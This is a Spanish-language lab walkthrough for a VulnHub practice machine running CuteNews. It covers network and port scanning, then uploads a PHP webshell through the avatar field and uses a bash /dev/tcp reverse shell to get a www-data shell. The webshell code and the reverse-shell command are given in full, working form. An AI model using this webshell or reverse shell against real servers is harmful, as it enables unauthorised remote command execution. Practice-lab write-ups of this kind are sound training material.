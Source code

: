 # Obtener Intrusión a Servidor Mediante uso de una Webshell

Vamos a ver cómo podemos generar una webshell en php que podamos subir al servidor y así obtener acceso a la máquina víctima a través del servidor web osea la pàgina web.

Enlace a la máquina vulnerable:

[https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141)

* Hacer reconocimiento de la red para encontrar la máquina objetiva:

```bash
└─# arp-scan -I eth0 --localnet                                         
Interface: eth0, type: EN10MB, MAC: 08:00:27:ba:28:e1, IPv4: 192.168.1.18
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1	a8:9a:93:66:15:50	(Unknown)
192.168.1.15	f4:7b:09:52:3d:48	(Unknown)
192.168.1.36	08:00:27:28:82:7e	(Unknown)
192.168.1.13	fe:d5:2d:56:5a:08	(Unknown: locally administered)
192.168.1.12	1c:98:c1:ab:90:69	(Unknown)
192.168.1.11	d8:1e:dd:32:a2:9d	(Unknown)
192.168.1.28	74:40:be:9e:eb:4a	(Unknown)

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.108 seconds (121.44 hosts/sec). 7 responded
```

* Ver si tenemos conectividad con la máquina objetiva:

```bash
└─# ping -c 1 192.168.1.36
PING 192.168.1.36 (192.168.1.36) 56(84) bytes of data.
64 bytes from 192.168.1.36: icmp_seq=1 ttl=64 time=3.11 ms

--- 192.168.1.36 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 3.111/3.111/3.111/0.000 ms
```

* Escanear los puertos de la máquina objetivo:

```bash
└─# nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.36
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-29 22:13 CET
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Initiating ARP Ping Scan at 22:13
Scanning 192.168.1.36 [1 port]
Completed ARP Ping Scan at 22:13, 0.21s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:13
Scanning 192.168.1.36 [65535 ports]
SYN Stealth Scan Timing: About 50.00% done; ETC: 22:14 (0:00:33 remaining)
Discovered open port 80/tcp on 192.168.1.36
Completed SYN Stealth Scan at 22:14, 69.22s elapsed (65535 total ports)
Initiating Service scan at 22:14
Scanning 1 service on 192.168.1.36
Completed Service scan at 22:14, 6.17s elapsed (1 service on 1 host)
NSE: Script scanning 192.168.1.36.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.40s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.08s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.02s elapsed
Nmap scan report for 192.168.1.36
Host is up, received arp-response (0.00080s latency).
Scanned at 2024-10-29 22:13:07 CET for 76s
Not shown: 53055 filtered tcp ports (no-response), 12479 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Please Login / CuteNews
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 08:00:27:28:82:7E (Oracle VirtualBox virtual NIC)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.10 seconds
           Raw packets sent: 124833 (5.493MB) | Rcvd: 12483 (499.320KB)
```

Registrarse en el servidor web de la página web [register](http://192.168.1.36/?register).

Una vez registrados nos logeamos y veremos que en el la parte de [personal options](http://192.168.1.36/index.php?mod=main\&opt=personal) tenemos la posibilidad de poder subir un archivo.

Crear webshell en php:

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Subimos el archivo en la parte del avatar y abrimos la webshell y le pasamos un comando vemos que vemos el resultado:

```bash
└─# curl "http://192.168.1.36/uploads/avatar_red_rs.php?cmd=whoami"
<pre>www-data
</pre>                                                            
```

Entonces como podemos ejecutar comando para entrar en la màquina hacemos una reverse-shell:

* Estar en escucha con netcat:

```bash
└─# nc -nlvp 7777
listening on [any] 7777 ...
```

Abrir el [enlace](http://192.168.1.36/uploads/avatar_red_rs.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.1.18%2f7777%200%3E%261%22) o hacer una petición con curl al mismo enlace:

```bash
└─# curl "http://192.168.1.36/uploads/avatar_red_rs.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.1.18%2f7777%200%3E%261%22"
```

* Recibir la reverse-shell:

```bash
└─# nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.36] 53570
bash: cannot set terminal process group (1089): Inappropriate ioctl for device
bash: no job control in this shell
www-data@simple:/var/www/html/uploads$ 
```
